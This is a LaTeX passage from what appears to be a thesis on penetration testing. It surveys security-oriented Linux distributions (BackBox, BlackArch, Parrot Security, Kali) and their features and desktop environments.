
\includegraphics[width=0.7\textwidth]{Resources/General/PhasesGraph.jpg}
\caption{Penetration Testing Phases \label{Phases}}
\end{figure}

\subsubsection{Exploring the different tools}

After understanding the process of Penetration Testing and its steps, it is vital to familiarize with a more practical approach of the test by getting to know the tools used in a penetration testing environment and perform such attacks. As this thesis continues, a description of the different attack points to a targeted computer system and the associated tools, will be presented. 

\chapter{Penetration Test Software and Tools}

Tools and Software used to execute a penetration test are the topics to be discussed in the following chapter. Penetration tester's tools are crucial elements to the outcome of the test. Proper selection of tools is done after thorough research on what each tool has to offer and which of those fit the needs and goals of the specific test to be performed. The main focus is to investigate the features provided by specific and well-known tools and operating systems and a comparison of those in order to decide upon the tools and their specifications that correspond to the test's architecture and goals. 

\section{Operating System Distributions}

Following, you will find a preview of some of the most well-known and widely used Penetration Testing operating systems. The focus is on open-source Linux distributions.

\begin{description}
\item[BackBox] Linux is a penetration testing and security assessment oriented Ubuntu-based distribution providing a network and systems analysis toolkit. Two of its most important features are \cite{arch2019doc}:
\begin{itemize}
\item[]
\textit{RAM Wiping} at shutdown/reboot keeps your system safe against attacks and make sure that nobody could compromise your privacy
\item[]
\textit{Full Hard Disk Encryption} in the installation phase by using LUKS\footnote{LUKS is the standard for Linux hard disk encryption. See more at \href{https://gitlab.com/cryptsetup/cryptsetup/blob/master/README.md}{their repositories}} on Local Volume Manager.
\end{itemize}
As a fast, easy to use, and efficient operating system, Backbox Linux is famous in the hacking community. The OS includes a complete desktop environment with software applications that are updated on a regular basis. 

\begin{figure}[H]
\centering

\includegraphics[width=1.0\textwidth]{Resources/Tools/BackBox.png}
\caption{BackBox Linux Desktop Environment}
\end{figure}

The interface is designed with the goal of minimalism, and utilizes a XFCE\footnote{Xfce is a lightweight desktop environment for UNIX-like operating systems. For more information, visit \href{https://xfce.org/about}{XFCE's website}} environment for its desktop. The result is an effective, fast, customizable, comprehensive user experience with a helpful support community to back it.
\bigskip

\item[BlackArch] Linux is a penetration testing specific design which originally derived from Arch Linux, and users also have the option and capability to install the BlackArch Linux components over the top of it. As an operating system, the standard version of it offers users over 1400 tools to use that are thoroughly tested prior to being added to the OS's arsenal of tools and code-base \cite{arch2019tools}.
\begin{figure}[H]
\centering

\includegraphics[width=1.0\textwidth]{Resources/Tools/BlackArch.png}
\caption{BlackArch Linux Desktop Environment}
\end{figure}

The repository currently contains 2277 tools, in the form of packages. You can install tools individually or in groups. BlackArch Linux is compatible with existing Arch installations.
\bigskip

\item[ParrotSec] is based on top of the testing branch of Debian GNU operating system. it's a Debian-based OS option that packs a lot into its programming. Developed by the team at Frozenbox's, Parrot Security is an option that's cloud-friendly \cite{parrot2019doc}.

\begin{figure}[H]
\centering

\includegraphics[width=1.0\textwidth]{Resources/Tools/Parrot.png}
\caption{Parrot Security OS Desktop Environment}
\end{figure}

The desktop environment is MATE\footnote{Visit \href{https://mate-desktop.org/}{MATE's website} for more information.}, and the default display manager is LightDM\footnote{Check \href{https://github.com/CanonicalLtd/lightdm}{LightDM's repository} online.}.The operating system is designed to specialize in ethical hacking, computer forensics, penetration testing, cryptography, and more.

\bigskip
\item[Kali Linux] is another Debian-Based Linux distribution. Developed by Offensive Security, Kali Linux is the rewrite of BackTrack. It is aimed at advanced Penetration Testing and Security Auditing. Kali contains several hundred tools which are geared towards various information security tasks, such as Penetration Testing, Security research, Computer Forensics and Reverse Engineering \cite{kali2019doc}.

\begin{figure}[H]
\centering
